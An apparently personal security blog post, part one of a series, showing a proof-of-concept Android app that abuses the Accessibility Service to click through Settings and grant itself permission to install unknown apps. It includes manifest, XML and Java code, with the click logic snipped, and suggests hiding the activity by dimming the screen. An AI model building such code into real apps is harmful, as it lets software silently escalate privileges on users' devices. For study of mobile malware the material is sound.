 ```yaml
---
layout: posts
title:  Attacking Android Accessibility Service (AAS) - Part I
date:   2020-05-05
categories: android
---
```


`~$ cat How_an_Android_app_could_escalate_its_privileges.txt`

### About Accessibility Service

A few months ago, I heard about the malware Shedun, abusing the Accessibility Service of Android in order to do the bad things malwares do. In my opinion,
it's as simple as it's clever. As the documentation says:

>Accessibility services **should** only be used to assist users with disabilities in using Android devices
>and apps. They run in the background and receive callbacks by the system when AccessibilityEvents are fired. Such events denote some state transition in
>the user interface, for example, the focus has changed, a button has been clicked, etc. Such a service can optionally request the capability for querying
>the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods."

In other words, it's a kind of component being put between the application and the user. Is it a good thing ? On one hand, yes, it is. AS makes the app more usable, and as we can read in the doc:
_Note: Although it's beneficial to add accessibility features in your app, you should use them only for the purpose of helping users with disabilities interact with your app._

On the other hand, as we can easily imagine, there will be some problems in case of misuse ... Indeed, a malicious application implementing this service could then "capture" the screen before display and interact with.
Actually, it could be harmless (or to a lesser extent), if the service was not able to interact with other applications. Imagine how dangerous an application upgrading its privileges could be...

Does it seem so unrealistic ? Let's take a closer look ...

### Setting up an Accessibility Service

To create an Accessibility Service, an application has to register it in the Manifest.xml, for example

> ```xml
> <service android:name=".services.CustomAccessibilityService"
>	android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>	<intent-filter>
>	<action android:name="android.accessibilityservice.AccessibilityService"/>
>	</intent-filter>
>	<meta-data android:name="android.accessibilityservice"
>		android:resource="@xml/accessibility_config"/>
> </service>
> ```

The configuration could be done in Java, but some parameters (the most interesting ones actually) can only be set using XML:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"/>
> ```

We can see in the snippet just above three interesting things:
* the service will be called each time the content of the window changes
* two applications will be concerned: mine and Settings
* the service is allowed to get the content of the current window

### Java part

It's then time to code the class `CustomAccessibilityService`! The class has to extend `AccessibilityService`:

> ```java
>public class CustomAccessibilityService extends AccessibilityService {
>	@Override
>	public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	}
>
>	@Override
>	public void onInterrupt() {
>	}
>}
> ```

The routine `onAccessibilityEvent` is the most important here, because it's the one which will allow the developer to catch all events.
I have to make the difference between events coming from my application, and those coming from Settings.

The principle of the application is quite simple:
* check if my app has privileges. If not, launch the app Settings
* reach the panel where my app will toggle the right switch
* go back to my app

_Since it's only a PoC, the code is quite dirty and will probably not work on another device. The one I used on the emulator is a Nexus 5X_

The most difficult part is to browse through the settings and find the right page. To do this, I decided to use a stack containing keywords, and creating a kind
of "path" for my service. Each time the top of the stack is found on a widget, a click is programmatically done.

Then, since events coming from my application will appear at the beginning, I set up my stack at this moment. For events coming from Settings, a loop is used to follow
the right path.

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	switch (accessibilityEvent.getPackageName().toString()){
>		case BuildConfig.APPLICATION_ID:
>			if (stack == null){
>				stack = new Stack<>();
>			}
>			else if (stack.size() != 5){
>				stack.push("spyapp");
>				stack.push("unknown");
>				stack.push("special");
>				stack.push("advanced");
>				stack.push("app");
>			}
>			break;
>		case Constants.PACKAGE_SETTINGS:
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null && this.stack != null) {
>				lookForPermissionsPanel(info);
>			}
>		break;
>	}
>}
> ```

Then, the job is done by the routine `lookForPermissionsPanel` which recursively scans the view, and tries to find the string on the top of the stack:

> ```java
>private boolean lookForPermissionsPanel(AccessibilityNodeInfo info) {
>	if (info == null)
>		return false;
>	for (int c = 0; c < info.getChildCount(); c++){
>		if (lookForPermissionsPanel(info.getChild(c))) {
>			return true;
>		}
>	}
>	if (info.getText() != null){
>		String text = info.getText().toString().toLowerCase();
>		if (!stack.empty() && (text.contains(stack.peek()) || text.equalsIgnoreCase(stack.peek()))){
>			stack.pop();
>			/**
>			 * <snipped>
>			 * here we deal with clickable widgets. To force the click, we use performAction(AccessibilityNodeInfo.ACTION_CLICK); on the node
>			 * or on its parent.
>			 * </snipped>
>			 **/
>		}
>		else{
>			/**
>			 * <snipped>
>			 * the stack is empty and we have to deal with the final toggle button, and to close Settings
>			 * </snipped>
>			 **/
>		}
>	}
>	return false;
>}
> ```

_The routine returns true when a widget has been clicked_

And finally, in the the main activity, we only have to launch Settings if our app doesn't have the desired privileges:
> ```java
>@Override
>protected void onCreate(@Nullable Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	LinearLayout layout = (LinearLayout) LinearLayout.inflate(this, R.layout.activity_main, null);
>	TextView text = layout.findViewById(R.id.text);
>	text.setText(!getPackageManager().canRequestPackageInstalls() ? "Cannot install unknown apps" : "Allowed to install unknown apps");
>	if (!getPackageManager().canRequestPackageInstalls() && isAccessibilitySettingsOn() && !Util.hasPermission(Manifest.permission.REQUEST_INSTALL_PACKAGES, this)) {
>		Intent intent = context.getPackageManager().getLaunchIntentForPackage(Constants.PACKAGE_SETTINGS);
>		if (intent != null) {
>			intent.addCategory(Intent.CATEGORY_LAUNCHER);
>			startActivity(intent);
>		}
>	}
>	setContentView(layout);
>}
> ```

where `hasPermission` is a routine returning true if the app has a permission, and `isAccessibilitySettingsOn` is another routine checking if our app is allowed to
use the accessibility service (inspired by [this solution](https://stackoverflow.com/questions/5081145/android-how-do-you-check-if-a-particular-accessibilityservice-is-enabled)):

```java
public boolean isAccessibilityServiceOn() {
  AccessibilityManager am = (AccessibilityManager) getSystemService(Context.ACCESSIBILITY_SERVICE);
  assert am != null;
  List<AccessibilityServiceInfo> enabledServices = am.getEnabledAccessibilityServiceList(AccessibilityServiceInfo.FEEDBACK_ALL_MASK);
  for (AccessibilityServiceInfo enabledService : enabledServices) {
    ServiceInfo enabledServiceInfo = enabledService.getResolveInfo().serviceInfo;
    if (enabledServiceInfo.packageName.equals(getPackageName()) && enabledServiceInfo.name.equals(CustomAccessibilityService.class.getName()))
      return true;
  }
  return false;
}
```

### So what ?

We might think that it's not terrible since the user will see my app do its malicious job, and react quickly. It's true, but I think about 2 things:
* imagine that the malicious app is designed to do an unrecoverable thing. If the app is fast enough, the damage will be done
* there are maybe some tricks to hide the malicious activity. Let's say, set the brightness to 0 (even if it requires the permission WRITE_SETTINGS. Why not, social engineering is often better than expected)

here is a video showing the app running. As you can see, there is no permission at the beginning, and the app will escalate its privileges by browsing through Settings (the pointer doesn't appear at this moment):

[![video_poc](/assets/res/android/video.png)](https://youtu.be/7SMHSPEBcAw)
